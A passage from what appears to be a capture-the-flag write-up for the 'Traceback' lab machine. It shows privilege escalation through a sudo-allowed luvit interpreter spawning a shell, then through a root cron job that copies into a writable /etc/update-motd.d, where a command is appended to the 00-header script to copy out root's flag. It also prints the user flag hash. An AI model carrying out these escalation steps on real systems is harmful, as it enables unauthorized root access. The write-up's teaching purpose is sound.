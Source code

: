     :::text
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
    $ id
    uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)

We go to our new home directory and read `user.txt`.

    :::text
    $ bash
    sysadmin@traceback:~$ cd /home/sysadmin/
    sysadmin@traceback:/home/sysadmin$ ls
    luvit  user.txt
    sysadmin@traceback:/home/sysadmin$ cat user.txt 
    349f0968dce655cb15708bba0077d225

As before we add our public ssh key to the user's `.ssh/authorized_keys`.

# root

We do not know sysadmin's password required to list our `sudo` right.

We run a simple `ps aux` to know which process are running. We see (that's some
luck) that root regularly execute the following command:
`/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/`

    ::text
    root      28855  0.0  0.0   4628   856 ?        Ss   02:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

We confirm that using [pspy](https://github.com/DominicBreuker/pspy) (using ssh
to copy the binary).

    :::text
    2020/03/26 03:07:01 CMD: UID=0    PID=29213  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
    2020/03/26 03:07:01 CMD: UID=0    PID=29212  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 

When looking at the `/var/backups/.update-motd.d` folder's permissions when see
that we can not write in any file nor create a file as everything belong to
`root`. Nevertheless, the `/etc/update-motd.d/` folder's permissions allow our
user to write in any file. We create a temporary folder and add a command to the
`00-header` file. That command will copy the file `/root/root.txt` and give us
the permissions to read it.

    :::text
    sysadmin@traceback:/etc/update-motd.d$ ls -al
    total 32
    drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
    drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
    -rwxrwxr-x  1 root sysadmin  981 Mar 26 03:59 00-header
    -rwxrwxr-x  1 root sysadmin  982 Mar 26 03:59 10-help-text
    -rwxrwxr-x  1 root sysadmin 4264 Mar 26 03:59 50-motd-news
    -rwxrwxr-x  1 root sysadmin  604 Mar 26 03:59 80-esm
    -rwxrwxr-x  1 root sysadmin  299 Mar 26 03:59 91-release-upgrade
    sysadmin@traceback:/etc/update-motd.d$ mkdir /tmp/ioio
    sysadmin@traceback:/etc/update-motd.d$ echo 'cp /root/root.txt /tmp/ioio && chmod 777 /tmp/ioio/root.txt' >> 00-header
